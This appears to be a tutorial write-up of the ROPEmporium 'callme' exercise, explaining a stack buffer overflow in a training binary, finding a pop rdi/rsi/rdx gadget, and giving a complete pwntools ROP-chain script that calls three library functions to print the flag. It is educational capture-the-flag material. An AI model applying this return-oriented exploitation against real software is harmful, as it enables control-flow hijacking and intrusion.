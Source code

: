 ```yaml
---
title: ROPEmporium - Callme
date: 2021-12-20 23:20:31
tags: [ropemporium, rop]
---
```


## Introduction

The goal of the challenge is understanding how more than one argument is passed in x64 function. The challenge can be downloaded from the author`s website [ropemporium](https://ropemporium.com)

> Reliably make consecutive calls to imported functions.
> Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

> **You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

check the binary protections enabled on the `callme` binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior. radare2 is a powerful disassembler/debugging tool used for examining the behavior of programs.

![](/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command to disassemble a given function. Function **pwnme** looks similar to the previous challenges ret2win and split.

From the aDisassembled program, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/images/ropemporium/stack.png)

Next function is read function, which reads for user input and stores in the allocated buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From assembly code, we are reading `0x200` bytes from the standard input file descriptor and storing it in buffer, meaning we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, fill the buffer, overwrite rbp register and control the return address with desired address.

Because the system function receives one argument, look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/images/ropemporium/poprdi_callme.png)
Next is determine addresses of `callme_one`, `callme_two`, `callme_three` functions using gdb.

```nasm
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb)
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme, disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave
   0x000000000000092a <+272>:	ret
End of assembler dump.
(gdb)
```

From the disassembly code above, the function compares the arguments passed to the callme_one function. If string values are not equal to values passed to the `rdi`, `rsi` and `rdx` registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with controlled pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

Fully working rop chain code.

```python
import pwn

#Various setting for pwntools
pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)

callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Successful execution of the above code, correct flag is printed.

![](/images/ropemporium/callme-flag.png)
